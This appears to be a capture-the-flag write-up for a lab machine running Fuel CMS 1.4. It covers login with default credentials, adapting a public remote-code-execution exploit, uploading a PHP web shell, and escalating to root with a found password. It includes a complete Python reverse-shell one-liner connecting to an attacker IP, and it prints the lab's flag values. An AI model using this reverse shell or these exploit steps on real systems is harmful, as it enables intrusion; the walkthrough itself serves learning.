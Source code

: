 # Ignite
URL - 10.10.239.52
## Nmap
```nmap

```

## Enum
- Logged into fuel dashboard at 10.10.239.52/fuel with credentials `admin:admin`
- Find the version of fuelcms running on the home page `version 1.4`


## Research 

- Researching for vulns for version 1.4 of fuel cms was successful:
	- https://www.exploit-db.com/exploits/47138
- Further research led me to this blog which has awesome info regarding this exploit:
	- https://software-sinner.medium.com/cyberseclabs-fuel-d0a337785676
	
## Exploit
- Change the above exploit by making the following modifications:
		- Assign url variable with attacker ip
		- Remove proxy variable
		- Change burp0_url variable to 'payload'
		- Change r variable to say 'requests.get(payload)'
- Run the python exploit

### Gaining a shell
- Now that we can execute commands on the server, we can attempt to gain a shell
- Following the above blog article led me to this cool php bash web shell:
	- https://github.com/Arrexel/phpbash/blob/master/phpbash.php
- Host it on the attacker machine with python and download it with wget
- Visit the link URL:/phpbash.php
	- We have a cool web shell now
#### Reverse shell for simplicity
- Run
	- `python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.170.173",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'`
- To make it better run
	- `python -c 'import pty; pty.spawn ("/bin/bash")'`
- cat /home/www-data/user.txt
	-`6470e394cbf6dab6a91682cc8585059b`
## PrivEsc
- Run linpeas in /tmp directory
- Discover an interesting file with credentials

![](https://i.imgur.com/QcL0z6i.png)

- Attempting to switch user to root and use the password `mememe` to login is successful.
- We are root.
- cat /root/root.txt
	- `b9bbcb33e11b80be759c4e844862482d`